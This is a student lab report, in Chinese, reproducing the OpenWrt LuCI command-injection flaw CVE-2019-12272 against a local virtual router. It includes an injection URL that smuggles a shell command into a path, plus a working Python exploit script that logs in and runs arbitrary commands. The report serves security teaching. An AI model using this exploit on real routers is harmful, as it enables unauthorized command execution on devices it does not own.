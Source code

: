 # 移动互联网安全第四章实验报告  
## 移动通信安全概述  
### 实验目的  
* OpenWrt 已知漏洞利用复现  
### 实验环境  
* OpenWrt 15.05.1  
* Kali 虚拟机  
### 实验要求  
 - [x] 复现 CVE-2019-1227漏洞  
 - [x] 编写一个漏洞利用程序  
### 实验过程  
#### 实验环境搭建  
与[第一章实验环境搭建](https://github.com/CUCCS/2021-mis-public-AlinaZxy/blob/Chap01/chap01/chap01.md)过程相同，此处仅显示相关网络配置  
![环境设置](./image/环境设置.png)  
![网络配置](./image/网络配置.png)  
![安装成功](./image/安装成功.png)  
#### 漏洞复现  
先使用管理员账号登录`LuCI`，再使用浏览器访问 http://192.168.56.109/cgi-bin/luci/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt) 触发漏洞，再访问 http://192.168.56.109/cmd.txt 获取上一步命令执行的结果  
* 使用管理员账号登录`LuCI`  
![管理员登录](./image/管理员登录.png)  
* 触发漏洞后的访问结果  
![触发漏洞](./image/触发漏洞.png)  
#### 漏洞利用  
通过 Chrome 浏览器开发者工具的「Copy as cURL (bash)」功能，将漏洞复现请求复制为`curl 命令` ，然后通过第三方网站[将 curl 命令转换为 Python requests 代码](https://curl.trillworks.com/)，得到示例如下：  
![copyURL](./image/copyURL.png)  
```python
import requests

cookies = {
    'sysauth': '40b1e4bb1e85336cfdf3c00825eb3699',
}

headers = {
    'Connection': 'keep-alive',
    'Pragma': 'no-cache',
    'Cache-Control': 'no-cache',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Accept-Language': 'zh-CN,zh;q=0.9',
}

response = requests.get('http://192.168.56.109/cgi-bin/luci/;stok=b7c79021dc8312a640a0f4c9e9f96c35/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3Ecmd.txt)', headers=headers, cookies=cookies, verify=False)
```  
用同样的方式将登录信息转换为python代码  
![登录界面](./image/登录界面.png)  
![代码转换](./image/代码转换.png)  
```python
import requests

headers = {
    'Connection': 'keep-alive',
    'Pragma': 'no-cache',
    'Cache-Control': 'no-cache',
    'Upgrade-Insecure-Requests': '1',
    'Origin': 'http://192.168.56.109',
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Referer': 'http://192.168.56.109/cgi-bin/luci',
    'Accept-Language': 'zh-CN,zh;q=0.9',
}

data = {
  'luci_username': 'root',
  'luci_password': '147258'
}

response = requests.post('http://192.168.56.109/cgi-bin/luci', headers=headers, data=data, verify=False)
```  
#### python代码编写  
```python
import requests
from urllib.parse import urlparse
import sys

from requests.models import Response

class CVE_2019_12272:

    def __init__(self):
        self.host = '192.168.56.109'
        self.uname = 'root'
        self.upass = '147258'
        self.stok = ''
        self.cmd = ''
        self.cookies = ''
        self.headers = {
            'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0',
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
            'Accept-Language': 'en-US,en;q=0.5',
            'Referer': 'http://{host}/cgi-bin/luci',
            'Content-Type': 'application/x-www-form-urlencoded',
            'Connection': 'keep-alive',
            'Upgrade-Insecure-Requests': '1',
        }


    def login(self):
        data = {
            'luci_username': '{uname}'.format(uname=self.uname),
            'luci_password': '{upass}'.format(upass=self.upass)
        }
        response = requests.post('http://{host}/cgi-bin/luci'.format(host=self.host), headers=self.headers, cookies=self.cookies, data=data, allow_redirects=False)
        location = response.headers['Location']
        self.stok = urlparse(location).params
        self.cookies = response.cookies

    def shell(self, cmd):
        url = 'http://{host}/cgi-bin/luci/;{stok}/admin/status/realtime/bandwidth_status/eth0$({cmd}%3ecmd.txt)'.format(host=self.host, stok=self.stok, cmd=cmd)
        response = requests.get(url, headers=self.headers, cookies=self.cookies)

    def view(self):
        url = 'http://{host}/cmd.txt'.format(host=self.host)
        response = requests.get(url, headers=self.headers)
        print(response.text)

if __name__ == "__main__":
    exp = CVE_2019_12272()
    exp.login()
    exp.shell(sys.argv[1])
    exp.view()
```  
![代码执行结果展示](./image/代码执行结果展示.png)  
* 其他更高端的复现代码待开发...  

### 实验问题与解决  
1. Windows 10 自动更新后莫名其妙断开了虚拟机的Host-Only网络  
![hostonly](./image/hostonly网络.png)  
错误原因：适配器还健在，但虚拟机无法打开，怀疑是更新出了什么乱七八糟的bug:joy:  
解决方案：重新配置虚拟机的虚拟网络，重新配置IP地址与网络掩码  

#### 参考资料  
[移动互联网安全第四章实验](https://c4pr1c3.gitee.io/cuc-mis/chap0x04/cve-2019-12272.html)  
[移动互联网安全第四章教学视频](https://www.bilibili.com/video/BV1rr4y1A7nz?t=268&p=100)  
[VirtualBox网络之仅主机(Host-Only)网络](https://blog.csdn.net/dkfajsldfsdfsd/article/details/79441874)  
